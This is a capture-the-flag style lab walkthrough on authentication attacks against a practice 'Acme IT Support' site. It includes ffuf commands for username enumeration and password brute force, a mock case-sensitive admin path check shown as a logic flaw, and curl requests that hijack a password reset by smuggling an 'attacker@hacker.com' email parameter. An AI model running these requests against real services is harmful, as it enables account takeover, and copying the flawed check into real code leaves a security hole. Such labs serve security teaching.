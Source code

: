 # Website Error Messages for Username Enumeration

Website error messages can be valuable resources for gathering information to build a list of valid usernames. For instance, on the Acme IT Support website’s signup page (http://MACHINE_IP/customers/signup), there’s a form to create a new user account.

If you try entering the username 'admin' and fill in the other fields with fake data, you'll receive an error: 'An account with this username already exists.' This error message can be leveraged to compile a list of valid usernames already registered in the system, using a tool like ffuf.

Username Enumeration with ffuf

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

In this example:

The -w flag specifies the location of the username wordlist on the system.

The -X flag sets the request method. By default, it's a GET request, but in our case, it’s a POST request.

The -d flag indicates the data being sent. Here, we have fields for username, email, password, and cpassword, with the username value set to FUZZ. The keyword FUZZ is used by ffuf to replace it with values from our wordlist in the request.

The -H flag is used to add additional headers to the request; in this instance, we set the Content-Type so the server recognizes it as form data.

The -u flag specifies the URL endpoint for the request.

Finally, the -mr flag looks for a specific response text (‘username already exists’) to confirm if a valid username is found.

# Brute Force

A brute force attack is an automated method that tests a list of commonly used passwords against either a single username or, as in our case, a list of usernames.

When executing this command, make sure your terminal is in the same directory as the valid_usernames.txt file.

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

This ffuf command is slightly different from the one used in Task 2. 

Previously, we used the FUZZ keyword to specify where in the request the data from the wordlists should be inserted. However, because we are using multiple wordlists here, we define our own placeholders. 

In this case:

- W1 represents our list of valid usernames.
- W2 represents the list of passwords we want to test.
- The multiple wordlists are indicated using the -w flag, separated by a comma. To determine a successful match, the -fc flag is used to filter for - HTTP status codes other than 200.

Executing this command will identify a working username and password combination that can be used to answer the question below.

# Logic Flaw

Sometimes, authentication processes contain logic flaws. A logic flaw occurs when the usual logical flow of an application is bypassed, manipulated, or circumvented by an attacker. 

These flaws can exist anywhere on a website, but here, we'll focus on examples related to authentication.

## Logic Flaw Example

Below is a mock code snippet that checks if the URL path begins with /admin. If it does, it performs an additional check to verify if the user is an admin. Otherwise, it displays the page:

```
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
In this example, the code uses === to check for an exact match, including case sensitivity. This presents a logic flaw because an unauthenticated user accessing /adMin will bypass the check and view the page, effectively bypassing the authentication process.

## Logic Flaw Practical

We will explore the Reset Password function on the Acme IT Support site (http://MACHINE_IP/customers/reset). The form requests an email associated with the account. If an invalid email is entered, the message "Account not found from supplied email address" appears.

For this example, using robert@acmeitsupport.thm as the email address will be accepted. The form then asks for the username associated with this email. Entering robert will confirm that a password reset email will be sent to robert@acmeitsupport.thm.

You may wonder about the vulnerability since both the email and username are required. However, let's illustrate how this can be exploited using curl requests.

 ```
 curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

The -H flag sets the header to inform the server that form data is being sent.
The server retrieves the account using the query string, but when sending the reset email, it uses the PHP variable $_REQUEST, which combines query string and POST data.

Exploit Using Curl :

By adding another parameter to the POST data, we can control the recipient of the password reset email:

```
curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

To proceed, create an account on the Acme IT support site, which provides you with a unique email address ({username}@customer.acmeitsupport.thm).

Run Curl Request 2 again, replacing the email with your own Acme IT email:

```
curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

This will create a support ticket with a link allowing you to log in as Robert. Using Robert’s account, you can access his support tickets and find the flag.

















